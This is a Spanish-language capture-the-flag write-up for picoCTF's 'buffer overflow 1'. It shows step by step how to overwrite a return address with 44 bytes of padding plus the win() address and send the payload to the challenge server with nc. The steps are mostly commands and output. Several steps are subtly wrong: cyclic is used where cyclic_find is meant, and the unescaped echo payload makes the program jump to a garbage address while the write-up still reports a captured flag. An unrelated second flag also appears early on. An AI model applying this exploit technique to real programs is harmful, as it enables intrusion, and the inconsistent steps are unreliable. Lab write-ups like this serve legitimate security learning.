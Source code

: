 # buffer overflow 1

## Objetivo.

Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/186/vuln).You can view source [here](https://artifacts.picoctf.net/c/186/vuln.c). And connect with it using `nc saturn.picoctf.net 64318`

## Solución.

**Primero hay que descargar los archivos binario y c** 

**Dar permiso de ejecución al archivo binario**

```
frausto_san-picoctf@webshell:~/picoctf/binaryexplotation/bufferoverflow1$ chmod +x vuln
```

**Correr el archivo**

```
frausto_san-picoctf@webshell:~/picoctf/binaryexplotation/bufferoverflow1$ ./vuln
Please enter your string: 
asdfghjkl7
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
```

Nos pide una cadena y luego hace un salto.

**Bandera** picoCTF{ov3rfl0ws_ar3nt_that_bad_90d2bb58}

**Hayaremos el limite que pueda evitar el salto**

```
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

**Después hacemos echo a lo obtenido para crear una falla de segmento**

```
frausto_san-picoctf@webshell:~/picoctf/binaryexplotation/bufferoverflow1$ echo 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa' | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
Segmentation fault (core dumped)
```

**Ahora veremos cuantos caracteres acepta a partir de la direccion de salto proporcionada que 0x6161616c**

```
>>> cyclic(0x6161616c)
44
```

El límite es 44.

**Generamos 44 A's**

```
>>> 'A'*44*
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

**Encontrar la dirección de retorno e invertirla**

```
frausto_san-picoctf@webshell:~/picoctf/binaryexplotation/bufferoverflow1$ objdump -D vuln -M intel | grep 'win'
080491f6 <win>:
 804922c:       75 2a                   jne    8049258 <win+0x62>
```

La dirección es: 080491f6

Invertida
```
>>> p32(0x080491f6)
b'\xf6\x91\x04\x08'
```

**En teoria rellenerá la pila con 44 caracteres hasta la dirección de retorno**

**Hacer una flag y posteriormente el relleno**
```
frausto_san-picoctf@webshell:~/picoctf/binaryexplotation/bufferoverflow1$ echo 'flag(dummieflag)'>flag.txt

frausto_san-picoctf@webshell:~/picoctf/binaryexplotation/bufferoverflow1$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x3666785c
Segmentation fault (core dumped)
```

**Se lo mandamos al puerto remoto**

```
frausto_san-picoctf@webshell:~/picoctf/binaryexplotation/bufferoverflow1$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | nc saturn.picoctf.net 64318
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x3666785c
picoCTF{addr3ss3s_ar3_3asy_9cf083f8}
```

Bandera:  picoCTF{addr3ss3s_ar3_3asy_9cf083f8}

## Notas opcionales.

## Referencias.

Vídeo

https://www.youtube.com/watch?v=vVcGj3kIz-g&t=182s&ab_channel=hackadvisermx